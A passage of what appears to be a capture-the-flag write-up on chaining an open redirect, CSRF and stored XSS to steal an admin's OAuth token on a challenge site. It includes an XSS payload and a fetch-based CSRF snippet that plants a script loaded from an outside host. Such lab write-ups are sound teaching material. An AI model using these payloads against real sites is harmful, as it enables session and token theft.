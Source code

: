 Now, we run into a problem - a check is being done on the `redirect_uri` parameter that ensures the site starts with `https://journal.bitdizzle.xyz/`. If it only checked `https://journal.bitdizzle.xyz` (no `/`), then we could insert a URL like `https://journal.bitdizzle.xyz@attacker.controlled.domain/oauth_token`, and sent that link off. However, the extra `/` means the domain name is locked in, so we can't send it to our own domain. However, if we can somehow gain control of *any* page on the journals domain, we can steal the token.

### XSS
The last needed bug in the code was a stored XSS vulnerability. On line 44 of [journal.py](src/journal.py), the note content is pasted directly into the HTML (a `<script>` tag specifically, which is already bad practice) as JSON, but without any filtering. This meant that creating a note like `</script><script>alert('Malicious JS here')</script>` would allow us to run any JavaScript code we wanted on the main page.

### Review of Chained Exploits
* [Open redirect](https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html) - line 63 of [accounts.py](src/accounts.py), we can send the OAuth token to *any* webpage on journal.bitdizzle.xyz
* [CSRF](https://portswigger.net/web-security/csrf) - no CSRF tokens are in place + most of the parameters are GET parameters, meaning anyone clicking a malicious URL could cause them to perform actions they don't intend
* [XSS](https://portswigger.net/web-security/cross-site-scripting) - line 44 of [journal.py](src/journal.py), note content is directly pasted into the HTML, allowing an attacker to insert arbitrary HTML and JavaScript code

So the goal would be to chain those 3 exploits like so - we first (using CSRF) put a XSS payload in the admin's journal that will, when loaded in someone's browser, will send all GET parameters to an attacker-controlled domain (to steal the OAuth token), then we will have the admin bot create an OAuth token on accounts and set the `redirect_uri` parameter to the vulnerable page on journal.bitdizzle.xyz to trigger our XSS payload. Easy, right?

### Difficulty with CSRF
Journal entries are created by sending a POST request to `http://journal.bitdizzle.xyz/entries/`, with the JSON-formatted data. Normally, a cross-site POST request forgery can be achieved by sending the user to an attacker-controlled page that runs the following JavaScript:

```javascript
(async () => {
  const rawResponse = await fetch('https://journal.bitdizzle.xyz/entries/', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json'
    },
    body: JSON.stringify({title: "</script><script src='https://justinapplegate.me/test.js'>", body: "test2"})
  });
})();
```

However, running that code returns a CORS error. The gist of it is this - since the `Access-Control-Allow-Origin` header wasn't present on journal.bitdizzle.xyz and didn't allow POST requests from my domain, the CSRF attack failed (exactly to prevent this kind of thing). One work around is to add the `mode: 'no-cors'` to the object inside fetch. The problem I ran into was that this meant our `Content-Type` header was invalidated, and line 56 of [journal.py](src/journal.py) used the `flask.request.get_json()`, which by default **requires** the `Content-Type` header to be set to `application/json`. Even though we were sending it JSON-formatted data, the request would give us a 500 error since the `Content-Type` was incorrect. 
